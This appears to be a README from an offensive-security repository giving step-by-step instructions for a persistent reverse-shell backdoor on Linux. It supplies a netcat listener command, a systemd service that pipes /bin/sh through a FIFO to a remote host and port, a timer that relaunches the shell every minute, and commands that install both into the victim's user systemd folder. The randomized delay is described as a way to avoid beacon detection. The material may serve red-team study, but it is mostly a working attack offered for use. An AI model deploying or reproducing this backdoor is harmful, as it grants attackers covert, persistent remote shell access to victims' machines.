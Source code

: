 # Scheduled Reverse Shell

## Description

This sequence of commands sets up a scheduled task, much like the better-known `cron` jobs, to execute
a reverse shell using a FIFO pipe located at `/tmp/backpipe`.

The service file (`revshell.service`) uses:

* The `Environment` directive to set up the remote host and port to connect to
* The `ExecStartPre` directive to check fo the FIFO pipe and create it if it does not exist
* The `ExecStart` directive to execute the backdoor sequence (more info on how it works located in the linked blog below)

The timer file (`revshell.timer`) uses:

* The `AccuracySec` directive to align service execution with the wider system
* The `OnCalendar` directive to execute the specified unit at the start of every minute
* The `Unit` directive to identify the unit file to execute when the timer is triggered
* The `RandomizedDelaySec` to avoid simple beacon detections
* The `Persistent` directive to reactivate this timer immediately if it missed previous activations

## Additional Notes

* The reverse shell service does not end when the shell drops; systemd still considers the service "activated"
  after the main (`ExecStart`) process dies
* The `.timer` file ensures the backdoor gets re-run if the shell drops
* systemd only runs the next scheduled task if the previous task has ended
  * Avoids unnecessary logs
* Tasks will automatically run again if the backdoor ends after the next task was supposed to run
  * systemd will not wait until the timer gets scheduled again
  * e.g. 4.5 minutes after initial run on a per-minute timer

    ```txt
    [1]       [2]        [3]        [4]          [5]
    run-------skip-------skip-------skip-die-run-skip
    ```

* The `.timer` file will randomize unit execution a bit based on the `AccuracySec` and `RandomizedDelaySec` directives
  * `AccuracySec` is a measure of how accurate systemd must be when executing the associated unit.
    This is done so systemd can attempt to reduce executions that fall within the same time window.
  * `RandomizedDelaySec` randomizes the exact second at which systemd will execute the unit.
    This is done so systemd can minimize the chance many units fire at once and possibly consume too many resources.
    It's also really nice for avoiding beacon detections :)
  * The timer below will first choose a time within the `RandomizedDelaySec`, and then look for a time within `AccuracySec`
    * In reality, this unit will execute sometime between `*:56 - *:05` seconds

## Step by Step

1. Stand up listener on attacker server

```sh
nc -nlvp 4444
```

2. Generate a service file to create the backdoor on the victim

```ini
$ cat revshell.service
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple reverse shell
Documentation=https://github.com/infosec-intern/sneaky-systemd-shit

[Service]
; https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
Type=simple
Environment=RHOST="10.10.10.10" RPORT="4444"
ExecStartPre=/bin/sh -c "find /tmp/backpipe || mknod --mode=0666 /tmp/backpipe p"
ExecStart=/bin/sh -c "/bin/sh 0</tmp/backpipe | /bin/nc ${RHOST} ${RPORT} 1>/tmp/backpipe"
```

3. Generate a timer file to execute the backdoor at regular intervals (every minute in our case)

```ini
$ cat revshell.timer
; https://www.freedesktop.org/software/systemd/man/systemd.timer.html
[Timer]
AccuracySec=1s
OnCalendar=*-*-* *:*:00
Unit=revshell.service
RandomizedDelaySec=4s
Persistent=true
```

4. Install into the systemd user folder on the victim

```sh
mkdir -p ~/.config/systemd/user/
ln -s `pwd`/revshell.service ~/.config/systemd/user/
ln -s `pwd`/revshell.timer ~/.config/systemd/user/
```

5. Start the scheduled task

```sh
systemctl --user start revshell.timer
```

6. Wait for the shell!

```sh
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [${attacker}] from (UNKNOWN) [${victim}]
```
